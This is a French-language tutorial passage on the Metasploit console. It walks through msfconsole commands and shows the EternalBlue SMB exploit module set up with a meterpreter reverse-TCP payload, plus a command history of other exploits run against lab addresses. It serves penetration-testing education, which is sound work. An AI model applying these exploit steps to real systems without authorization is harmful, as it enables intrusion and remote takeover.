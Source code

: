 
La **console metasploit** est l'outil avec lequel on va **interragir avec nos modules**, pour la lancé la commande est **`msfconsole`**.

```shell
┌──(azure㉿kali)-[~]
└─$ msfconsole

                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........



       =[ metasploit v6.3.10-dev-                         ]
+ -- --=[ 2303 exploits - 1203 auxiliary - 412 post       ]
+ -- --=[ 965 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: When in a module, use back to go
back to the top level prompt
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Une fois lancé, vous pouvez interragir avec la console comme si c'était un **shell banal à l'exception de quelques commandes** comme ci-dessous :

```shell
msf6 > help > help.txt 
[-] No such command 
msf6 >
```

On peut utiliser la commande **`help`** afin d'avoir des **informations sur des commandes** :

```shell
msf6 > help set
Usage: set [option] [value]

Set the given option to value. If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore. Use -g to operate on the global datastore. 

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >
```

On peut utiliser la commande **`history`** pour avoir l'historique des commandes tapées précédemment.

```shell
msf6 > history 
1 use exploit/multi/http/nostromo_code_exec
2 set lhost 10.10.16.17 
3 set rport 80 
4 options 
5 set rhosts 10.10.29.187
6 run 
7 exit 
8 exit -y 
9 version 
10 use exploit/multi/script/web_delivery
```

La commande **`use`** permet d'utiliser un module. 

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Vous remarquerez qu'on peut toujours utiliser les commandes comme `ls`, cela signifie qu'on est pas entré dans un dossier comme on pourrait croire.

Une commande importante lorsqu'on veut utiliser un module, est **`show options`**, elle nous affiche les options qu'attends le module.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue): 

	Name          Current Setting Required Description 
	----          --------------- -------- ----------- 
	RHOSTS                        yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
	RPORT         445             yes The target port (TCP)
	SMBDomain     .               no (Optional) The Windows domain to use for authentication
	SMBPass                       no (Optional) The password for the specified username
	SMBUser                       no (Optional) The username to authenticate as 
	VERIFY_ARCH   true            yes Check if remote architecture matches exploit Target.
	VERIFY_TARGET true            yes Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp): 

Name     Current Setting Required Description
----     --------------- -------- ----------- 
EXITFUNC thread          yes      Exit technique (Accepted: '', seh, thread, process, none) 
LHOST    10.10.220.191   yes      The listen address (an interface may be specified) 
LPORT    4444            yes      The listen port

Exploit target: 

	Id Name 
	-- ---- 
	0  Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

La commande **`show`**  peut être utilisé avec tout type de modules :

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

#  Name                                       Disclosure Date Rank   Check Description
-  ----                                       --------------- ----   ----- ----------- 
0  generic/custom                                             manual No    Custom Payload
1  generic/shell_bind_tcp                                     manual No    Generic Command Shell, Bind TCP Inline
2  generic/shell_reverse_tcp                                  manual No    Generic Command Shell, Reverse TCP Inline 
3  windows/x64/exec                                           manual No    Windows x64 Execute Command 
4  windows/x64/loadlibrary                                    manual No    Windows x64 LoadLibrary Path
5  windows/x64/messagebox                                     manual No    Windows MessageBox x64 
6  windows/x64/meterpreter/bind_ipv6_tcp                      manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7  windows/x64/meterpreter/bind_ipv6_tcp_uuid                 manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
```


#

